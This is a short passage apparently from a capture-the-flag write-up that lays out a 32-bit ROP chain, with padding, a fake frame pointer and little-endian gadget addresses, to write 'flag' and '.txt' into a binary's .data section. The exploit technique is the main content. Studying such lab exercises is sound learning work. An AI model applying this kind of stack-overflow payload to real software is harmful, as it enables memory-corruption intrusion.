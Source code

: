 
Okay, so this worked pretty nicely :) we now have "flag" stored at .data (0x0804a018)


# Stack 2 - Storing the Entire String in Memory

Now, we need to get "txt." into .data+0x4 (0x0804a01c)
Can we use the same ROP gadgets??

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip
	 = &ROP gadget
	 = 0x080485aa				 4B 
 	 = "\xaa\x85\x04\x08"
	 _______________________________________
	edi 
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"				 4B
	_______________________________________
	eip = &uG
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	________________________________________
	 eip = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data
	 = 0x0804a01c				 4B
	 = "\x1c\xa0\x04\x08"
	_______________________________________
	ebp
	 = ".txt"				 4B
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 
	 = "\x43\x85\x04\x08"			 4B
	_______________________________________
	eip  
	 = 0x080485aa
	 = cccc 
	_______________________________________
